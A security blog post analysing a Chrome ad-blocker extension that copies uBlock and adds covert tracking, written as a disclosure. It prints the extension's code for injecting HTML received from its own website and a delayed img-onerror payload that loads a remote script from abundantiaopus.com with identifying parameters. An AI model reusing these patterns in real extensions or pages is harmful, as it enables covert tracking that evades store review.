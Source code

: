 Title: Werbe videoblocker
Date: 2021-8-28 10:01
Modified: 2021-8-28 10:01
Category: misc
Tags: js
Slug: werbe_videoblocker
Authors: F3real
Summary: uBlock copy with added tracking

Few weeks ago while browsing web, I've gotten an interesting popup. Usually I immediately close them, but this one looked rather well-made, so it piqued my interest

![Werde webpage]({static}/images/2021_8_28_werde_adblock.png){: .img-fluid .centerimage}

The chrome store makes it seem like a rather popular addon, having over 200k installs.

![Werde chrome store]({static}/images/2021_8_28_werde_chrome_store.png){: .img-fluid .centerimage}

Although, some reviews are not so convincing especially when complimenting it as "office app".

![Werde reviews]({static}/images/2021_8_28_werde_adblock_reviews.png){: .img-fluid .centerimage}

Obviously, addon was up to no good, so I decided to look at the source code. After digging around it became clear that the addon was uBlock rip off.

Some files were removed some modified, but most of them were left untouched. Authors made some effort to obfuscate/change .js files, probably to circumvent automatic google store checks. Most notable changes:

* removal of all uBlock copyright notices
* removal of all comments
* `uBlock` string was changed to `mainBlocker`
* most of .js files were removed, and their content was appended to the background.js

The combination of many .js files made further analysis slightly harder, but continuing to look through I started noticing scattered snippets of added functionality. Combined they look as follows:

```js
function LogInfoEx(data) {
    document.getElementsByTagName("html")[0].appendChild(data);
}

let _decorName = 'request_id';
let _lineInfoEx = '';

function getInfoType() {
    return 'none';
}

function getInfo(cc) {
    var d = document.createElement('div');
    d.style['display'] = getInfoType();
    d.innerHTML = cc;
    return d;
}

function inlineDecor(data) {
    let cc = data[_decorName]
    if (data['line_info'])  {
        _lineInfoEx = data['line_info'];
    }
    if (cc) {
        let d = getInfo(cc);
        LogInfoEx(d);
    }
}

chrome.storage.local.get(["request_id"], inlineDecor);

chrome.runtime.onInstalled.addListener(function (details) {
    let now = Date.now() / 1000;
    if (details.reason === "install") {
        chrome.storage.local.set({
            'installed_at' : now
        }, function() {});

        chrome.runtime.onMessageExternal.addListener(
            function(request, sender, sendResponse) {
                if (sender.origin === 'https://advideoblock.com' && request.id) {
                    chrome.storage.local.set({
                        'request_id': request.id
                    });
                }
            });
        chrome.runtime.setUninstallURL('https://advideoblock.com/uninstalled.php?extid='+chrome.runtime.id);
        chrome.tabs.create({url:'https://advideoblock.com/installed.php?extid='+chrome.runtime.id});
    }
});
```
Once installed addon creates a listener for messages coming from its website (`onMessageExternal`) and opens it in a new tab (`create`). When message is received it will store it in local storage,and callback function will use received data to create invisible div with message contents.In this way addon can avoid having any tracking code in itself.

This makes it necessary to do dynamic analysis, and also enables addon authors to do this only for some installs, if required to further obfuscate their activity.

One example of tracking I've seen embedded in addon webpage:

```js
  <script type="text/javascript" id="rm">
     var timestamp = localStorage.getItem('timestamp');
     var eId = localStorage.getItem('eId');
     var atr = localStorage.getItem('atr');
     var itr = localStorage.getItem('itr');
     var id = '60c25f638e607';
     var current_timestamp = Date.now() + (2 * 24 * 60 * 60 * 1000);
        id = "<img src onerror='if ("+current_timestamp+" < Date.now() && /.(google|youtube)./.test(document.location.origin)){var s = document.createElement(\"script\");s.type = \"text/javascript\"; s.onload = function(){this.parentNode.removeChild(this)}; s.src = \"https://abundantiaopus.com/impl.php?i=" + itr + "&atr=" + atr + "&id=" + eId + "&start=" + timestamp + "\";document.getElementsByTagName(\"head\")[0].appendChild(s);} this.parentNode.removeChild(this);'>";

        chrome.runtime.sendMessage('mabadchclkilfghbpeomkmbldhncgklf', {id: id});

      document.querySelector('#rm').parentNode.removeChild(document.querySelector('#rm'));
  </script>
```

The script activates 2 days after install, whenever Google or YouTube is visited. It attempts to load external script with some extra information passed as parameters (gathered during install), used to uniquely identify user.

I didn't spend time analyzing it further, but report with gathered information was enough for Chrome store to take action and remove the addon (although this did take some time). Nonetheless, I think addon shows interesting way how automatic chrome store checks can be bypassed and how malicious functionality can be added after install.

The addon was available to download at:

[https://advideoblock.com/](https://advideoblock.com/)

[https://chrome.google.com/webstore/detail/ad-video-blocker/mabadchclkilfghbpeomkmbldhncgklf](https://chrome.google.com/webstore/detail/ad-video-blocker/mabadchclkilfghbpeomkmbldhncgklf)

The links are now down, but I saved a copy of addon for anyone interested [here](https://github.com/F3real/ctf_solutions/tree/master/2021/Werbe).

